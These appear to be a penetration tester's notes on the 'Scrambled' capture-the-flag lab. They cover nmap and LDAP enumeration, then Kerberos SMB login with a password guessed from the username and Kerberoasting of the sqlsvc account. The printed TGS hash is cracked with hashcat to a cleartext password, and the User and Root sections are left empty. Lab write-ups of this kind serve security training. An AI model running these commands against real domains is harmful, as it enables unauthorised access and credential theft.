


# Scrambled
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.168 -T4                   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-12 16:42 BST
Nmap scan report for 10.10.11.168 (10.10.11.168)
Host is up (0.092s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
9389/tcp  open  adws
49668/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49697/tcp open  unknown
49701/tcp open  unknown

```
```
└─$ nmap -Pn -p53,80,88,135,139,389,445,464,593,636,1433,4411,5985,9389 -sC -sV 10.10.11.168 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-12 16:53 BST
Nmap scan report for 10.10.11.168 (10.10.11.168)
Host is up (0.17s latency).

Bug in ms-sql-ntlm-info: no string output.
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Scramble Corp Intranet
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-12 15:53:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2023-09-12T15:56:40+00:00; -37s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T15:30:57
|_Not valid after:  2023-06-09T15:30:57
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T15:30:57
|_Not valid after:  2023-06-09T15:30:57
|_ssl-date: 2023-09-12T15:56:40+00:00; -37s from scanner time.
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.10.11.168:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2023-09-12T15:56:40+00:00; -37s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-09-12T15:09:29
|_Not valid after:  2053-09-12T15:09:29
4411/tcp open  found?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, NCP, NULL, NotesRPC, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|   FourOhFourRequest, GetRequest, HTTPOptions, Help, LPDString, RTSPRequest, SIPOptions: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|_    ERROR_UNKNOWN_COMMAND;
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4411-TCP:V=7.94%I=7%D=9/12%Time=6500899D%P=x86_64-pc-linux-gnu%r(NU
SF:LL,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(GenericLines,1D,"SCRAMBLEC
SF:ORP_ORDERS_V1\.0\.3;\r\n")%r(GetRequest,35,"SCRAMBLECORP_ORDERS_V1\.0\.
SF:3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(HTTPOptions,35,"SCRAMBLECORP_ORDER
SF:S_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RTSPRequest,35,"SCRAMBLEC
SF:ORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RPCCheck,1D,"SCR
SF:AMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(DNSVersionBindReqTCP,1D,"SCRAMBLECOR
SF:P_ORDERS_V1\.0\.3;\r\n")%r(DNSStatusRequestTCP,1D,"SCRAMBLECORP_ORDERS_
SF:V1\.0\.3;\r\n")%r(Help,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNO
SF:WN_COMMAND;\r\n")%r(SSLSessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n
SF:")%r(TerminalServerCookie,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(TLS
SF:SessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(Kerberos,1D,"SCRAM
SF:BLECORP_ORDERS_V1\.0\.3;\r\n")%r(SMBProgNeg,1D,"SCRAMBLECORP_ORDERS_V1\
SF:.0\.3;\r\n")%r(X11Probe,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(FourO
SF:hFourRequest,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND
SF:;\r\n")%r(LPDString,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_
SF:COMMAND;\r\n")%r(LDAPSearchReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%
SF:r(LDAPBindReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(SIPOptions,35,"
SF:SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(LANDesk
SF:-RC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(TerminalServer,1D,"SCRAMB
SF:LECORP_ORDERS_V1\.0\.3;\r\n")%r(NCP,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r
SF:\n")%r(NotesRPC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(JavaRMI,1D,"S
SF:CRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(WMSRequest,1D,"SCRAMBLECORP_ORDERS
SF:_V1\.0\.3;\r\n")%r(oracle-tns,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r
SF:(ms-sql-s,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(afp,1D,"SCRAMBLECOR
SF:P_ORDERS_V1\.0\.3;\r\n")%r(giop,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n");
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -37s, deviation: 0s, median: -37s
| smb2-time: 
|   date: 2023-09-12T15:56:01
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 199.93 seconds
```
- `dap`
```
└─$ ldapsearch -H ldap://10.10.11.168 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=scrm,DC=local
namingcontexts: CN=Configuration,DC=scrm,DC=local
namingcontexts: CN=Schema,CN=Configuration,DC=scrm,DC=local
namingcontexts: DC=DomainDnsZones,DC=scrm,DC=local
namingcontexts: DC=ForestDnsZones,DC=scrm,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1

```
```
└─$ ldapsearch -H ldap://10.10.11.168 -x -b "DC=scrm,DC=local" 
# extended LDIF
#
# LDAPv3
# base <DC=scrm,DC=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1

```

- `dns`
```
└─$ dig @10.10.11.168 scrm.local                                                                                            

; <<>> DiG 9.18.16-1-Debian <<>> @10.10.11.168 scrm.local
; (1 server found)
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 20897
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;scrm.local.                    IN      A

;; ANSWER SECTION:
scrm.local.             600     IN      A       10.10.11.168

;; Query time: 143 msec
;; SERVER: 10.10.11.168#53(10.10.11.168) (UDP)
;; WHEN: Tue Sep 12 17:47:56 BST 2023
;; MSG SIZE  rcvd: 55

```
```
└─$ dig axfr @10.10.11.168 scrm.local

; <<>> DiG 9.18.16-1-Debian <<>> axfr @10.10.11.168 scrm.local
; (1 server found)
;; global options: +cmd
; Transfer failed.
```


- Web Server


- `NTLM` is disabled



- Password reset
  - States that password will be the same as username when reset


- IT support
  - Possible user `ksimpson`


- New account form



- `Sales orders app`


- Let's see query `dc1` dns
```
└─$ nslookup dc1.scrm.local 10.10.11.168 
Server:         10.10.11.168
Address:        10.10.11.168#53

Name:   dc1.scrm.local
Address: 10.10.11.168
Name:   dc1.scrm.local
Address: dead:beef::bd65:c83c:6338:a949
Name:   dc1.scrm.local
Address: dead:beef::154
```

## Foothold
- If we try `smbclient`, it doesn't work since `NTLM` is disabled
  - We can try `impacket-smbclient` with `kerberos` authentication
```
└─$ impacket-smbclient -k scrm.local/ksimpson:ksimpson@dc1.scrm.local -dc-ip 10.10.11.168
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
Type help for list of commands
# help

 open {host,port=445} - opens a SMB connection against the target host/port
 login {domain/username,passwd} - logs into the current SMB connection, no parameters for NULL connection. If no password specified, it'll be prompted
 kerberos_login {domain/username,passwd} - logs into the current SMB connection using Kerberos. If no password specified, it'll be prompted. Use the DNS resolvable domain name
 login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes
 logoff - logs off
 shares - list available shares
 use {sharename} - connect to an specific share
 cd {path} - changes the current directory to {path}
 lcd {path} - changes the current local directory to {path}
 pwd - shows current remote directory
 password - changes the user password, the new password will be prompted for input
 ls {wildcard} - lists all the files in the current directory
 rm {file} - removes the selected file
 mkdir {dirname} - creates the directory under the current path
 rmdir {dirname} - removes the directory under the current path
 put {filename} - uploads the filename into the current path
 get {filename} - downloads the filename from the current path
 mget {mask} - downloads all files from the current directory matching the provided mask
 cat {filename} - reads the filename from the current path
 mount {target,path} - creates a mount point from {path} to {target} (admin required)
 umount {path} - removes the mount point at {path} without deleting the directory (admin required)
 list_snapshots {path} - lists the vss snapshots for the specified path
 info - returns NetrServerInfo main results
 who - returns the sessions currently connected at the target host (admin required)
 close - closes the current SMB Session
 exit - terminates the server process (and this session)

```

- List of shares
```
# shares
ADMIN$
C$
HR
IPC$
IT
NETLOGON
Public
Sales
SYSVOL

```
- We have access to `Public` share
  - Let's download `Network Security Changes.pdf`
```
# use HR
[-] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
# use Sales
[-] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
# use IT
[-] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
# use Public
# ls
drw-rw-rw-          0  Thu Nov  4 22:23:19 2021 .
drw-rw-rw-          0  Thu Nov  4 22:23:19 2021 ..
-rw-rw-rw-     630106  Fri Nov  5 17:45:07 2021 Network Security Changes.pdf
# get Network Security Changes.pdf
# 

```

- Content of `Network Security Changes.pdf`


- The company uses `kerberos` for auth
  - Let's check for `Kerberostable` users
  - https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast
```
└─$ impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -request -k -no-pass
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 16:32:02.351452  2023-09-12 16:09:27.626803             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 16:32:02.351452  2023-09-12 16:09:27.626803             


[-] CCache file is not found. Skipping...
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$cfc4b32a63f2f11d2c6f0983dbaece04$319dc6f2ce6e6edb39b3d4beaefb9bda37eaf3c01ba5b9855e556694a353e0eb18493011d02ca4d0450bff6f5e7d6684b04c43e18539d79190a5cf48f15c9def761c6cb9c927716bf63b2a2acaab64459d137b50628a9f536c408e34b4bf0a59ee2186de4403248b38b2f12e59d19c8b7daf494243019a74b20580efe0e9e02c217da9519e12b66e4b90622feda42094f9897d82635e2689ee9861d770d9c790940185c17fd7840f54010fd5d6fe6ba0402ed8a37f5993ac8e9821809b46027300e298ea17aa56923df7fdb05d016e99066487e276bfdbae0a56c2ed57ad0e1281343accf68f84b301fe5ccdffb71439b9afd75b3de9eeb20bbb99255cfeb0edd324bb92cf82aa26f8ffabcd607c4e913941de269e0b5ad8346a91be81b5a638e922ae443b43a1caa240b6401ff60749e80f5e383579eb28d9dfed639c8a57a115cbe654a4e841918d1ed76c59c660fd7c0d3b258a1e638e34e65e32cc60af5b4a3583ffb3e3274602c618ccff18d034537d57abee7ec124d6067649d39c2f0bd9dc9c62f6c70fbe0012735bebabc32bdf83977e2190d2159e90a91878c36a59b1c064f04460a4888d98eb420027e192598b377d369b566ab16f773d7861f3a2caf73db1b42bbc30c69413240c817429129b2aa5cebff9842e360a9af497e47b61c0246b97d5b90a3380c0972698cee34b9ee3a0359545319960670fc3f8c0b1e61518c34a971f22e4c5e585b5e0ed82350767c325d399a8388cc75819d022037f092d4af3f0a5ce9352d1879599391c179093109bd1b1e54ac64a5b3cbee85f9630b897a1b5b78129767707ad8926ecd7a19ca28e375b4a193b4ab146c47af86e636b1a9d7639b7bad40de6542480538f3ef5102c06a6fc35479d2f713862762dbd3c865c7c2d5f836e002b3a5f915086ee47023bfc147ae07b3c48ed2f3481edb321c7c4d5ff4cad67831a4bb8d1c5fc82a0d8397ce783ba9494eb1e65bfa313307b810cb9eb57da33c821c806639ff07f2a04e8e51c0fd3428059a64056feb6bdf82625762da1a1e06c81f9f31a0194b71557c70e0e9931a68365f3a9244e8e59221be052e8e9751bd4df3ecdde718a96d0914209e3d8a3fdf22dad1ddfe7846f9ed7962972311efc8ee6664b9ddb9a0604f400e42bd3cc983524bb5df94c07d04cc865a24e0bfea62592fed7a11f1a59bff4c56acc16399ebf5aa1f61b203eb114528dc054751ca58b1e6f577f5d8851bb489c5febf64284266a2a4fdd3b367cafe0309375f52dc81a8f81e0aa0e357452a9804ef9d48289f6d158e2eb55212d47a348fb9d4a996c90e8ac5dcdcfcfa897a8383686de23ceeee123d79490655accff8743e70807f85b0bce797330cc3d8fcd315343803eb973a773bbca722df5096490549dba8ce61b3503def77f57a0a09904ed92b4e8040b
```

- Let's try cracking it
```
└─$ hashcat --help | grep Kerb
  19600 | Kerberos 5, etype 17, TGS-REP                              | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                             | Network Protocol
  28800 | Kerberos 5, etype 17, DB                                   | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                              | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                             | Network Protocol
  28900 | Kerberos 5, etype 18, DB                                   | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth                      | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol
```
```
└─$ hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
...
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$cfc4b32a63f2f11d2c6f0983dbaece04$319dc6f2ce6e6edb39b3d4beaefb9bda37eaf3c01ba5b9855e556694a353e0eb18493011d02ca4d0450bff6f5e7d6684b04c43e18539d79190a5cf48f15c9def761c6cb9c927716bf63b2a2acaab64459d137b50628a9f536c408e34b4bf0a59ee2186de4403248b38b2f12e59d19c8b7daf494243019a74b20580efe0e9e02c217da9519e12b66e4b90622feda42094f9897d82635e2689ee9861d770d9c790940185c17fd7840f54010fd5d6fe6ba0402ed8a37f5993ac8e9821809b46027300e298ea17aa56923df7fdb05d016e99066487e276bfdbae0a56c2ed57ad0e1281343accf68f84b301fe5ccdffb71439b9afd75b3de9eeb20bbb99255cfeb0edd324bb92cf82aa26f8ffabcd607c4e913941de269e0b5ad8346a91be81b5a638e922ae443b43a1caa240b6401ff60749e80f5e383579eb28d9dfed639c8a57a115cbe654a4e841918d1ed76c59c660fd7c0d3b258a1e638e34e65e32cc60af5b4a3583ffb3e3274602c618ccff18d034537d57abee7ec124d6067649d39c2f0bd9dc9c62f6c70fbe0012735bebabc32bdf83977e2190d2159e90a91878c36a59b1c064f04460a4888d98eb420027e192598b377d369b566ab16f773d7861f3a2caf73db1b42bbc30c69413240c817429129b2aa5cebff9842e360a9af497e47b61c0246b97d5b90a3380c0972698cee34b9ee3a0359545319960670fc3f8c0b1e61518c34a971f22e4c5e585b5e0ed82350767c325d399a8388cc75819d022037f092d4af3f0a5ce9352d1879599391c179093109bd1b1e54ac64a5b3cbee85f9630b897a1b5b78129767707ad8926ecd7a19ca28e375b4a193b4ab146c47af86e636b1a9d7639b7bad40de6542480538f3ef5102c06a6fc35479d2f713862762dbd3c865c7c2d5f836e002b3a5f915086ee47023bfc147ae07b3c48ed2f3481edb321c7c4d5ff4cad67831a4bb8d1c5fc82a0d8397ce783ba9494eb1e65bfa313307b810cb9eb57da33c821c806639ff07f2a04e8e51c0fd3428059a64056feb6bdf82625762da1a1e06c81f9f31a0194b71557c70e0e9931a68365f3a9244e8e59221be052e8e9751bd4df3ecdde718a96d0914209e3d8a3fdf22dad1ddfe7846f9ed7962972311efc8ee6664b9ddb9a0604f400e42bd3cc983524bb5df94c07d04cc865a24e0bfea62592fed7a11f1a59bff4c56acc16399ebf5aa1f61b203eb114528dc054751ca58b1e6f577f5d8851bb489c5febf64284266a2a4fdd3b367cafe0309375f52dc81a8f81e0aa0e357452a9804ef9d48289f6d158e2eb55212d47a348fb9d4a996c90e8ac5dcdcfcfa897a8383686de23ceeee123d79490655accff8743e70807f85b0bce797330cc3d8fcd315343803eb973a773bbca722df5096490549dba8ce61b3503def77f57a0a09904ed92b4e8040b:Pegasus60
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$c...e8040b
Time.Started.....: Tue Sep 12 20:03:57 2023 (10 secs)
Time.Estimated...: Tue Sep 12 20:04:07 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1006.9 kH/s (0.42ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10729472/14344385 (74.80%)
Rejected.........: 0/10729472 (0.00%)
Restore.Point....: 10728960/14344385 (74.80%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Pekqhua* -> Pearson1
Hardware.Mon.#1..: Util: 90%

Started: Tue Sep 12 20:03:56 2023
Stopped: Tue Sep 12 20:04:08 2023
```

- We have `sqlsvc:Pegasus60`
- 
## User

## Root